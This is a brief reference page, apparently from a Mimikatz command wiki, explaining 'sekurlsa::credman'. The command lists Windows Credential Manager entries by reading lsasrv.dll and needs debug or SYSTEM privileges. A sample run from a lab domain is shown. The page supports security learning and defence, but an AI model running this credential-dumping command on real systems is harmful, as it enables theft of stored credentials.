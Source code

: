 # credman

It lists Credentials Manager by targeting the Microsoft Local Security Authority Server DLL ([lsasrv.dll](https://windows10dll.nirsoft.net/lsasrv\_dll.html)).

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::credman

Authentication Id : 0 ; 697146 (00000000:000aa33a)
Session           : Service from 0
User Name         : MediaAdmin$
Domain            : hacklab
Logon Server      : DC
Logon Time        : 10/17/2021 4:22:01 AM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1427
        credman :
```
